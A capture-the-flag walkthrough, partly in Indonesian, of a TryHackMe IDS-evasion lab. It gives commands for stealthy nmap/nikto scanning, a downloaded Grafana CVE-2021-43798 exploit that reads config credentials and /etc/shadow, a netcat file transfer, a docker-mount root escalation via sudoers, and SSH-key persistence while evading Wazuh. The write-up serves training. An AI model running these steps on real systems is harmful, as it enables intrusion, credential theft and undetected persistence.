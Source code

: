 Lab link: https://tryhackme.com/room/idsevasion
## Env
https://developers.whatismybrowser.com/useragents/explore/
```sh
export thatIP="10.10.123.182"
export thatAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36"
```

```sh
nmap -sV $thatIP
```

```sh
nmap -sV --script-args http.useragent=$thatAgent $thatIP
```

Note, that this strategy isn't perfect as both Suricata and Wazuh are more than capable of detecting the activity from the aggressive scans. Try running the following nmap command with the new User-Agent:
```sh
nmap --script=vuln --script-args http.useragent=$thatAgent $thatIP
```

The above command tells nmap to use the vulnerability detection scripts against the target that can return a wealth of information. However, as you may have noticed they also generate a significant number of IDS alerts even when specifying a different User-Agent as a nmap probes for a large number of potential attack vectors. It is also possible to evade detection by using SYN (-sS) or "stealth" scan mode; however, this returns much less information as it will not perform any service or version detection, try running this now:
```sh
sudo nmap -sS $thatIP
```

these more aggressive scans can return more useful information in some cases. Let's start by running nikto with the minimum options:
```sh
nikto -p 80,3000 -h $thatIP
```

```sh
nikto -p 3000 -h $thatIP
```

Tuning options will control the test that Nikto will use against a target. By default, if any options are specified, only those tests will be performed. If the "x" option is used, it will reverse the logic and exclude only those tests. Use the reference number or letter to specify the type, multiple may be used:

```sh
nikto -p 3000 -T 1 2 3 -h $thatIP
```

```sh
nikto -p 3000 -T 1 2 3 -useragent $thatAgent -h $thatIP
```

```sh
nikto -p 3000 -T 1 2 3 -useragent $thatAgent -e 1 7 -h $thatIP
```

```sh
nmap -sV -p 1-8000 $thatIP
rustscan -a $thatIP -- -A
```

```
site:example.com filetype:pdf
```

https://nvd.nist.gov/vuln/detail/CVE-2021-43798

```sh
wget https://raw.githubusercontent.com/Jroo1053/GrafanaDirInclusion/master/exploit.py
python3 exploit.py -u $thatIP -p 3000 -f /etc/grafana/grafana.ini | grep 'admin_user\|admin_password'
```

```
admin_user = grafana-admin
admin_password = GraphingTheWorld32
```

```sh
python3 exploit.py -u $thatIP -p 3000 -f /etc/shadow
```

```sh
nmap --script=vuln $thatIP
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://$thatIP/FUZZ
```

```sh
ssh grafana-admin@$thatIP
```

In fact, privilege escalation is our first task as we are not yet root. The first step in privilege escalation is usually checking what permissions we currently have this, could save us a lot of work if we're already in the sudo group. There are a few different ways to check this including:

-   `sudo -l` this will return a list of all the commands that an account can run with elevated permissions via `sudo`
-   `groups` will list all of the groups that the current user is a part of.
-   `cat /etc/group` should return a list of all of the groups on the system and their members. This can help in locating users with higher access privileges and not just our own.

victim (receiver)
```sh
nc -l -p 1234 -q 1 > linpeas.sh
```
attacker (sender)
```sh
cat /home/wowon/Downloads/linpeas.sh | netcat $thatIP 1234
```

victim
```sh
docker run -it --entrypoint=/bin/bash -v /:/mnt/ ghcr.io/jroo1053/ctfscoreapache:master # Perintah ini akan bind direktori root (system) ke direktori root (docker), sehingga kita bisa mendapatkan seluruh akses ke storage asli
```

This will spawn a container in interactive mode, overwrite the default entry-point to give us a shell, and mount the hosts file system to root.  From within this container, we can then edit one of the following files to gain elevated privileges:

-   `/etc/group` We could add the`grafana-admin` account to the root group. Note, that this file is covered by the HIDS  
    
-   `/etc/sudoers` Editing this file would allow us to add the grafana-admin account to the sudoers list and thus, we would be able to run `sudo` to gain extra privileges. Again, this file is monitored by Wazuh.  In this case, we can perform this by running:  
```sh
echo "grafana-admin ALL=(ALL) NOPASSWD: ALL" >>/mnt/etc/sudoers # membuat user grafana-admin tidak memerlukan password untuk mendapatkan akses root
```  
    
-   We could add a new user to the system and join the root group via `/etc/passwd`. Again though, this activity is likely to be noticed by the HIDS

in system (not docker)
```sh
sudo su
```

# Establishing Persistence / backdoor

```sh
ssh-keygen
```

attacker
```sh
cat ~/.ssh/id_rsa.pub
```

victim
```sh
vim ~/.ssh/authorized_keys
```

attacker
```sh
ssh root@$thatIP
```

jika tidak punya authorized_keys (victim)
```sh
mkdir -p ~/.ssh && touch ~/.ssh/authorized_keys
chmod 700 ~/.ssh && chmod 600 ~/.ssh/authorized_keys
```


wazu configuration
```sh
cat /var/ossec/etc/ossec.conf
```

This file lists all of the data sources that are covered by HIDS in this case, the following are enabled:

-   **File system monitoring** - As already mentioned this affects our ability to simply install ssh keys but, this also affects other persistence vectors like, `cron`, `systemd` and any attacks that require the installation of additional tools.
-   **System log collection** - This functionality will generate alerts when some post-exploitation actions are taken against the system like making SSH connections and login attempts.
-   **System inventory** - This tracks system metrics like open ports, network interfaces, packages, and processes. This affects our ability to open new ports for reverse shells and install new packages. Note, that this function currently, does not generate alerts by itself and requires the HIDS operator to write their own rules. However, A report would be available on an upstream log analysis platform like Kibana

Credentials for a docker registry could either be phished or extracted from`/root/.docker/config.json` as, this location stores the credentials used with the `docker login` command in plaintext.

```sh
cat /root/.docker/config.json
```

Note, that Docker monitoring is also available, however, it is not enabled in this case which gives us a few options:

-   We could hijack the existing container supply chain and use it to install a backdoor into one of the containers that are hosted by the system. This would be difficult to detect without additional container monitoring and scanning technology. Credentials for a docker registry could either be phished or extracted from`/root/.docker/config.json` as, this location stores the credentials used with the `docker login` command in plaintext. This won't work in this case though, as the host we compromised doesn't have internet access and there are no credentials in `/root/.docker/config.json`.  
    
-   We could modify the existing docker-compose setup to include a privileged SSH enabled container and mount the host's file system to it with `-v /:/hostOS`. The docker-compose file used to define the current setup isn't monitored by the file system integrity monitor as it's in `/var/lib.` Again though, this won't work well in this case as we don't have access to the internet though, you could transport the container images from the attack box to the compromised VM via SSH. You would also need to open up a new port for the ssh connection which, would show up on the system inventory report.  
    
-   We could modify an existing or new docker-compose setup by, abusing the `entrypoint` option to grant us a reverse shell. Using docker-compose also allows us to specify automatic restarts which increases the backdoor's resilience. This option also reverses the typical client-server connection model so, we won't need to open any new ports on the host.